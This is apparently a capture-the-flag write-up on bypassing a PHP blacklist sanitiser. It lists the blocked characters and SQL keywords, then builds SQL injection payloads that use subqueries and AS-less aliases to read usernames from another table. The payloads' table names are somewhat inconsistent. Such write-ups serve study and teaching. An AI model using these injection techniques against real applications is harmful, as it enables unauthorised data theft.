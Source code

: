 This function has a sanitisation check:

```php
<?php

function sanitize($id, $table) {
    /* Rock-solid: https://secure.php.net/manual/en/function.is-numeric.php */
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    /* Rock-solid too! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}
?>
```

This blocks all special characters, as well as check for UNION, JOIN and AS (and 0). The `id` parameter is checked to be numeric. Only the `table` parameter is greatly checked. 

The `()` characters are missing from the blacklist. There also some words like 'SELECT', 'WHERE' and 'LIKE' that can be abused. Also, the `As` keyword has been hinted. 

```sql
SELECT id,username FROM <table> WHERE id = <id>;

-- if replace the <table> paramter with a bracket
SELECT id,username FROM (select id,username from enemy)
```

`is_numeric` can be forced to return true if it detects 'E' in the string, as `numeric strings` return true.
`AS` is not needed to rename a column or table with an Alias. 
So the query can be:
```sql
SELECT 2,username FROM (SELECT 2 id,username enemy from costume where id like 1)
```

SQLite often supports the need for an Alias name via `as`. 

```sql
-- With AS keyword
SELECT column_name AS alias_name
FROM table_name;

-- Without AS keyword (often supported)
SELECT column_name alias_name
FROM table_name;
```
